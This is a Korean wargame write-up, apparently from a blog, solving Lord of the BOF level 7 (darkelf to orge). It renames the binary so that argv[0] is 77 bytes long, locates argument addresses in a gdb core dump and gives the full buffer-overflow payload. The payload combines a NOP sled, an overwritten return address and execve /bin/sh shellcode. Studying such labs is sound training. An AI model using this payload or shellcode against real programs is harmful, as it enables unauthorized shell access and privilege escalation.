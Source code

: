 ```yaml
---
title:  "[LOB] level 7: darkelf >> orge "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-22 13:46:34

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 7

**darkelf / kernel crashed**

orge.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147099444-17370eef-7d61-4a99-b073-74e00cbda363.png)

argv[0]의 길이가 77바이트 여야만 한다
예를들어 argv[0]은 ./abc DD EE 에서 ./abc 이다 argv[1]은 DD argv[2]는 EE 이다  
그렇다면 파일의 이름이 77바이트 여야한다는건데  
./을 제외하고 orge를 75바이트로 만들면 되겠다

rename을 사용해서 이름을 바꿔준다  
형식. rename 변경전파일명 변경후파일명 대상파일  
![image](https://user-images.githubusercontent.com/69203345/147101067-40ee1eca-2581-41fd-a3cc-e3e76b2087a1.png)  

이전 레벨과 사용법 같음
argv[1] = 'print "\x90"*44+RET'  
argv[2] = 'python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

>./\`python -c 'print "A"\*75+" "+"B"*44+"\xff\xff\xff\xbf"+" "+"\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147101369-7dabc847-7faf-4926-8444-2c4c4f292382.png)  
gdb로 코어파일 확인  
![image](https://user-images.githubusercontent.com/69203345/147101610-af783570-cdbc-48c1-b0d7-d9f8628c288e.png)

0xbffffb30 부터 argv[0]  
0xbffffb70 부터 argv[1]  
0xbffffbc0 부분이 argv[2]  

0xbffffbc0 부분을 리턴주소로 사용해서 페이로드 작성

>./\`python -c 'print "A"\*75+" "+"B"*44+"\xb0\xfb\xff\xbf"+" "+"\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147102329-ab0c0505-ed20-4e62-aa27-f1430da306b1.png)